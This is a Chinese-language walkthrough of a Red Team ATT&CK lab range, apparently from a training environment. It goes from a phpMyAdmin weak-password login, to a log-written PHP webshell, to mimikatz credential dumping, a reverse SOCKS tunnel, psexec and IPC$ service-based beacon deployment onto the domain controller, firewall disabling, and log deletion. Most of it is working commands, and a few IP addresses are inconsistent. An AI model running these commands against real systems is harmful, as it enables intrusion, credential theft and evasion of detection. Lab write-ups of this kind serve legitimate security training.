# 红日ATT&CK系列靶场（一）

- 网络结构:



- 靶机状况



# Web渗透

## 1.信息收集

使用御剑端口扫描工具，可以看到开放了如下端口



使用御剑后台扫描工具，扫出来下面几个页面



访问首页



## 2.获取webshell

### 漏洞利用的两种方式

1、逐个功能点测试

2、找特征然后搜索历史漏洞

### 利用phpMyAdmin

#### 爆破用户名密码



弱口令 root:root

#### 日志文件写shell

##### 【第一步】：查看当前日志配置

```
show variables like '%general%';    //查看日志文件在哪里放着
```

日志开关显示OFF，我们的目标是将其开启ON



##### 【第二步】：开启日志

```
set global general_log = on  //打开全局日志功能。
```





开启之后，我们的操作会被记录到这个日志文件中

##### 【第三步】：定义日志路径

在探针页面找到网站根目录：C:/phpStudy/WWW



试修改日志的路径到网站根目录下，把日志加载到111.php里面：

```
set global general_log_file='C:/phpStudy/WWW/111.php';
```





访问一下日志文件，刚刚执行的一些操作被记录在了日志中



##### 【第四步】：在日志中写入木马

```
SELECT '<?php eval($_POST[1]);?>';
```

这句话会被记录在日志中，相当于向日志中写入了一句话木马



可以在虚拟机中看到111.php文件中确实被写入了一句话木马，我们可以通过这个木马去控制网页



用蚁剑连接木马



### 开启3389端口远程桌面控制

```
netstat -ano  //查看端口开启状况，发现没有3389端口
```



执行命令开启3389端口：

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```


远程桌面连接192.168.111.131，但是此时我们并不知道账号和密码。

为了得到账号和密码，我们通过蚁剑上传mimikatz。



```
mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" "exit"
```

> 该命令用于提取系统中的敏感信息，特别是 Windows 系统中的凭据（如登录密码）。其中：
> 
> mimikatz.exe：这是工具的可执行文件。
> 
> "privilege::debug"：这是 Mimikatz 的一个模块，用于提升进程权限。Windows 系统中，某些敏感操作（如读取内存中的密码数据）需要 Debug 权限。此命令尝试将 Mimikatz 的进程提升为具有调试权限。
> 
> "sekurlsa::logonPasswords"：这是 Mimikatz 的一个功能模块，用于从内存中读取用户的登录信息，包括明文密码、哈希值等。这依赖于系统中某些安全机制（如 LSASS 服务）存储的凭据。
> 
> "exit"：执行完前面的操作后，退出 Mimikatz。



找到用户名和密码



输入账号(GOD\administrator)密码(hongrisec@2020)，远程桌面登录成功



# 内网渗透

## 1. 内网信息搜集

```
whoami 当前的登录账号
hostname 机器名
systeminfo 电脑相关信息
net user /domain 查询域中有多少个账号
net group "domain computers" /domain 查询域中有几台电脑
nslookup -type=SRV _ldap._tcp 查看域控的ip和它的位置
ipconfig 查看ip地址信息
arp -a 查看存活的主机
```



机器名显示stu1，god和stu1不一样，猜测这个账号是域账号



发现域名是god.org



发现五个用户



发现域中加入了3台电脑：DEV、ROOT-TVI862UBEH、STU1，当前stu1已经被我们控制



查到域控的ip地址192.168.52.138，域控名字owa.god.org（其中owa是域控电脑的机器名）



发现电脑双网卡运行，有两个ip：192.168.111.121/192.168.52.143   ， 其中192.168.111.121被我们控制，另一个ip通向另一个网段



52网段有2台主机存活：192.168.52.138/192.168.52.141



确定上面两个ip对应的是谁，找一下域名对应的IP地址，ping 主机名.域名，可以得到IP

例如：ping ROOT-TVI862UBEH.god.org，得到ip为192.168.53.141

192.168.53.141 对应ROOT-TVI862UBEH.god.org（域内主机）

192.168.52.138 对应owa.god.org（域控）

192.168.111.131 对应stu1.god.org（已经控制了）




<br/>

## 2. 内网渗透（PSexec横向渗透）

### 1.蚁剑到cs的迁移上线

选择windows exe可执行文件攻击



用蚁剑上传刚刚生成的.exe文件并执行，cs里面显示目标主机上线



### 2.提权

#### MS14-058（CVE-2014-4113）

<br/>







查看防火墙状态

```
shell netsh firewall show state
```



关闭防火墙状态

```
shell netsh advfirewall set allprofile state off
```



### 3.横向

查看当前域内列表

```
net view  
```



在CS执行成功后，它自己会将这些主机添加进去



查看域控列表

```
net dclist
```



先抓取服务器凭证



抓取明文密码



创建SMB监听器  



psexec拿下域控OWA






然后拿OWA的session去打另一个



可以看到拿下域机器ROOT-TVI862UBEH    



自此拿下所有域控！！！



## 3.内网渗透(代理)

这种方式很不稳定，上面的过程进行到开启了WEB靶机的3389端口后进行。

### 1. 挂代理：

```
攻击机:./ew_for_linux64 -s rcsocks -l 1080 -e 1234
Win7:ew.exe -s rssocks -d 192.168.111.128 -e 1234
```





通过kali自带的proxychains4进行代理,直接拿下域控：

`/etc/proxychains.conf`要配置正确

```
cat /etc/proxychains.conf     
```



```
└─# proxychains4 python3 psexec.py god.org/administrator:hongrisec@2020@192.168.52.138
```



注：由于这里的编码存在问题，一定要执行`chcp 65001`后在进行其他操作。

### 2. 开启3389端口

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```



开启端口后发现不能远程连接，查看一下防火墙的状态` netsh advfirewall show allprofiles`果然都开着，



直接给它关掉` netsh advfirewall set allprofiles state off`



### 3.远程连接

成功登录到域控(win7远程连接DC,而不是kali)



直接上传mimikatz，通过dcsync抓取所有用户的hash(在拿下第一台机器的时候就可做此操作，因为就直接拿到域管的权限的了),以便后续做权限维持` lsadump::dcsync /all /csv`

## 4.内网渗透(IPC$)

> 什么是IPC$：
> 
> IPC( Internet ProcessConnection)共享“命名管道”的资源，是为了实现进程间通信而开放的命名管道。IPC可以通过验证用户名和密码获得相应的权限，通常在远程管理计算机和查看计算机的共享资源时使用。
> 
> 通过ipc$，可以与目标机器建立连接。利用这个连接，不仅可以访问目标机器中的文件，进行上传、下载等操作，还可以在目标机器上运行其他命令，以获取目标机器的目录结构、用户列表等信息。



### 1.cs里面选择run mimikatz读取目标主机账号密码



### 2.建立IPC$的管道符（需要管理员才能建立IPC）

```
shell net use \\192.168.52.138\ipc$ "hongrisec@2020" /user:god\administratorh
```

> 表示和192.168.52.138建立ipc$管道，用密码hongrisec@2020，用god\administrator账号



查看IPC$管道是否建立成功：

```
shell net use
```



如果把木马文件上传到域控执行，黑客是没法访问到域控的，因为网络不通.



所以这里我们需要搭建一个隧道，在web服务器和域控中间建立一个**流量隧道(IPC$只能传文件，隧道可以传流量)**



如何上线不出网的机器?这里我们使用CS自带的功能，进行内网穿透实验.

> SMB Beacon使用命名管道通过父级
> 
> Beacon进行通讯，当两个Beacons连接后，子Beacon从父Beacon获取到任务并发送。



### 3.web服务器通过IPC传给域控木马

新建一个监听器



选择攻击方式



选择文件管理，upload刚刚的.exe文件



将beacon.exe复制到域控主机的c盘：

```
shell copy beacon.exe \\192.168.52.138\C$
```



### 4.通过IPC创建服务带动木马运行

创建一个服务，服务一旦运行，就会运行c盘下的恶意木马：

```
shell sc \\owa.god.org create test1 binpath= "cmd.exe /c c:\beacon.exe"
```

> 利用 sc 命令行工具 ， 试图在远程计算机 owa.god.org 上创建一个名为 test1 的服务，该服务的功能是执行 c:\beacon.exe。

显示服务创建成功



开启服务：

```
shell sc \\owa.god.org start test1
```



### 5.木马走SMB流量

连接目标机器（必须主动连接)：

```
link owa.god.org
```



目标主机上线，system权限



### 流程梳理：

黑客通过cs把木马传入web服务器->web服务器通过IPC传给域控->通过IPC创建服务，服务运行带动木马运行->木马走SMB流量（经过web服务器传给黑客，黑客就可以通过这条路把里面的域控控制）->最后，删日志（内网渗透拿下域控就结束了）